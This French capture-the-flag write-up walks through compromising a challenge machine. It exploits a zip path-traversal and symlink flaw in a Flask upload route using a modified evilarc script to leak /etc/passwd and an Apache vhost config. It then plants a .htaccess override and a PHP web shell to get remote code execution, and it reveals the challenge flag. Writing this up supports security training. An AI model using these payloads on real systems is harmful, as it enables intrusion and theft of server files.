







# La salade mixte

## Description

Une entreprise expose plusieurs services sur sa machine avec des langages différents... 

Pouvez-vous venir à bout de cette machine et récupérer le flag ?

Format : FLAG{}

Auteur : Worty

## Solution

Lorsqu'on arrive sur le challenge, on peut passer un nmap pour vérifier si différents ports sont ouverts :



Quand on accède au serveur web sur le port 80, on voit cette page :



On pourrait tenter d'énumérer le serveur web, mais cela est inutile puisque il n'y a rien d'utile dessus.

On peut donc se rendre sur l'autre serveur web exposé sur le port 8000, ici, il y a une interface qui nous permet d'envoyer un message à l'entreprise, en spécifiant un email, un message et on peut aussi uploader un fichier. Si l'on regarde plus en détail, on remarque que les développeurs de ce site web nous propose de télécharger le code source, on le récupère donc. Dans ce fichier, seulement une route est intéressante, celle d'upload :

```python
@app.route('/upload', methods=['POST'])
def upload():
    if request.method == 'POST':
        filepath = os.path.join(os.path.dirname(
            os.path.realpath(__file__)), "uploads")
        if 'file' not in request.files:
            return jsonify({'err':'Missing file !'})
        file_uploaded = request.files['file']
        if file_uploaded.filename == '':
            return jsonify({'err':'Missing file !'})
        if file_uploaded and ".zip" in file_uploaded.filename and "-" not in file_uploaded.filename and ".." not in file_uploaded.filename:
            filename = secure_filename(file_uploaded.filename)
            write_to_file = os.path.join(filepath, filename)
            file_uploaded.save(write_to_file)
            p = subprocess.Popen(["unzip","-:",write_to_file,"-d",f"uploads/{os.urandom(32).hex()}"])
            (output, err) = p.communicate()
            p.wait()
            os.remove(write_to_file)
            if(err): return jsonify({'err':'An error occured, please try again'})
            else: 
                if(request.form.get("email") and request.form.get("commentaire")):
                    #send_to_database(request.form.get("email"),request.form.get("commentaire")) : there is a problem with this method so we shutdown the database for the time to fix
                    return jsonify({'ok':'Your question has been received :)'})
                else: return jsonify({'err':'Missing email or commentary'})
        else: return jsonify({'err':'Security rules blocked this request.'})
```

On voit donc que le serveur attend un fichier zip, et va l'unzip dans un dossier avec un nom généré aléatoirement. Néanmoins, on remarque deux choses de spécifique :
- L'unzip ne se fait pas directement en python mais via une commande shell
- L'argument "-:" est utilisé sur la commande unzip : Celui-ci permet d'unzip les archives qui contiennent des fichiers ayant dans leur nom "../", et de le garder. On identifie donc ici une première vulnérabilité : on peut aller écrire ou l'on a les droits sur le système de fichiers.

En revanche, cet utilisateur n'a pas beaucoup de droit, en effet, il n'a même pas le droit d'aller écrire dans son home, et donc d'overwrite les fichiers de l'application. Par ailleurs, il n'a pas les droits d'aller écrire dans /var/www/, ce qui rend impossible la RCE pour l'instant.

On peut remarquer dans le code de l'application la ligne suivante :

`app = Flask(__name__, static_url_path='/static')`

Il y a donc un dossier static ! Si l'on utilise cette [librairie](https://github.com/ptoomey3/evilarc) python (qui permet d'exploiter la vulnérabilité de path traversal), et qu'on tente d'écrire un fichier "test" dans static (on nomme notre fichier injecté en .css pour éviter le téléchargement de celui-ci) :

`python2 evilarc_orig.py test.css -d 2 -p static -o unix`



On confirme donc l'exploitation de cette vulnérabilité, mais celle-ci ne sert pas à grand chose pour l'instant, étant donné le peu de droits de l'utilisateur.

Dans les fichiers zip, il y a une autre vulnérabilité, celle des liens symboliques, en effet, si on créé un zip qui contient un lien symbolique et qu'on spécifie "--symlinks", la valeur de ce lien sera conservée. 

Le but de cette partie du challenge est donc de lier les deux vulnérabilités, à la fois pour aller écrire dans un dossier accessible depuis l'application web, ainsi que de créer un lien symbolique vers des fichiers intéressants du serveur permettant de nous leak d'autres informations. Pour cela, il faut modifier le poc initial "evilarc.py" comme ceci :

```python
import sys, zipfile, tarfile, os, optparse


def main(argv=sys.argv):
	p = optparse.OptionParser(description = 'Create archive containing a file with directory traversal', 
								prog = 'evilarc',
								version = '0.1',
								usage = '%prog <input file>')
	p.add_option('--output-file', '-f', dest="out", help="File to output archive to.  Archive type is based off of file extension.  Supported extensions are zip, jar, tar, tar.bz2, tar.gz, and tgz.  Defaults to evil.zip.")
	p.set_default("out", "evil.zip")
	p.add_option('--depth', '-d', type="int", dest="depth", help="Number directories to traverse. Defaults to 8.")
	p.set_default("depth", 8)
	p.add_option('--os', '-o', dest="platform", help="OS platform for archive (win|unix). Defaults to win.")
	p.set_default("platform", "win")
	p.add_option('--path', '-p', dest="path", help="Path to include in filename after traversal.  Ex: WINDOWS\\System32\\")	
	p.set_default("path", "")
	options, arguments = p.parse_args()
	
	if len(arguments) != 1:
		p.error("Incorrect arguments")
		
	fname = arguments[0]
	if not os.path.exists(fname):
		sys.exit("Invalid input file")
		
	if options.platform == "win":
		dir = "..\\"
		if options.path and options.path[-1] != '\\':
			options.path += '\\'
	else:
		dir = "../"
		if options.path and options.path[-1] != '/':
			options.path += '/'

	zpath = dir*options.depth+options.path+os.path.basename(fname)
	print "Creating " + options.out + " containing " + zpath;	
	ext = os.path.splitext(options.out)[1]
	if os.path.exists(options.out):
		wmode = 'a'
	else:
		wmode = 'w'
	if ext == ".zip" or ext == ".jar":
		import stat
		zipInfo  = zipfile.ZipInfo("../../static/wortyyyyyyystyllle.css")
		zipInfo.create_system = 3
		unix_st_mode = stat.S_IFLNK | stat.S_IRUSR | stat.S_IWUSR | stat.S_IXUSR | stat.S_IRGRP | stat.S_IWGRP | stat.S_IXGRP | stat.S_IROTH | stat.S_IWOTH | stat.S_IXOTH
		zipInfo.external_attr = unix_st_mode << 16 
		zipOut = zipfile.ZipFile(options.out, 'w', compression=zipfile.ZIP_DEFLATED)
		zipOut.writestr(zipInfo, os.readlink("./wortystyle.css"))
		zipOut.close()
		return
	elif ext == ".tar":
		mode = wmode
	elif ext == ".gz" or ext == ".tgz":
		mode = "w:gz"
	elif ext == ".bz2":
		mode = "w:bz2"
	else:
		sys.exit("Could not identify output archive format for " + ext)

	tf = tarfile.open(options.out, mode)
	tf.add(fname, zpath)
	tf.close()


if __name__ == '__main__':
     main()
```

Dans ce code, la ligne "../../static/wortyyyyyyystyllle.css" permet de réaliser la vulnérabilité de path traversal. Dans un second temps, on va ajouter à notre archive zip la valeur du lien symbolique du fichier "wortystyle.css", ce qui va nous permettre d'exploiter la vulnérabilité expliquée ci-dessus. On peut donc tout d'abord tester avec le fameux fichier "/etc/passwd" :



Et notre exploit est fonctionnel ! On récupère bien le fichier passwd du serveur que l'on attaque.
Ici, la but est d'aller leaker le fichier suivant:
- /etc/apache2/sites-available/000-default.conf

Une fois ce fichier leaké, on récupère un autre vhost sur le serveur apache :
```
<VirtualHost *:80>
	ServerAdmin webmaster@localhost
	DocumentRoot /var/www/001db853a5b77c8e43af22174a651953b28ab8d9b69158b8e430e23836e008c6
	ServerName adminpanel.contactform.flask.supersecurecorp.internal

	ErrorLog ${APACHE_LOG_DIR}/error_subdomain.log
	CustomLog ${APACHE_LOG_DIR}/access_subdomain.log combined
</VirtualHost>
```

On peut donc overwrite notre fichier "/etc/hosts" pour y rajouter le dns récupéré. Une fois cela fait, on peut y accéder avec notre navigateur :



Ici, il y a deux manières de continuer le challenge :
- Bruteforce avec dirb (long et inutile)
- Réutiliser notre exploit précédent pour aller leak le fichier .htaccess de ce vhost

Si on leak le fichier .htaccess :
```
Options -Indexes

# don't forget to deny php exec on admin/panel/contact/messages/uploads/
```

On a donc notre url complète `http://adminpanel.contactform.flask.supersecurecorp.internal/admin/panel/contact/messages/` :



Après avoir joué avec l'application, on observe que nos fichiers sont tout le temps téléversé dans le même dossier, et qu'ils ne sont pas renommés, en revanche, il nous est impossible de téléverser des fichiers php ou phtml. Même si un joueur y arrive, ceux-ci ne seront pas exécutés à cause du fichier .htaccess dans le dossier d'upload qui contient la ligne suivante : 
`php_flag engine off`

Ici, on pourrait penser à utiliser la vulnérabilité path traversal du zip, mais cela n'est pas possible car l'utilisateur qui possède l'application n'a pas les droits d'écriture.

Pour exploiter ce téléversement de fichiers il va falloir créer un fichier .htaccess qui contient :
- Une ligne permettant de réactiver le flag php
- Une autre ligne qui permet de spécifier qu'une extension aléatoire (ex: .lehack) s'interprète comme du php.

On obtient donc le fichier .htaccess suivant :

```
php_flag engine on
AddType application/x-httpd-php .lehack
```

On créé donc un fichier rce.lehack :

```php
<?php
var_dump(shell_exec($_GET["c"]));
?>
```

On upload ces deux fichiers sur le serveur, et on se retrouve avec une joli RCE :



## Flag

FLAG{666a1df13b724e2217d1982985cf0fb33da0acbe8c64ee359b2f}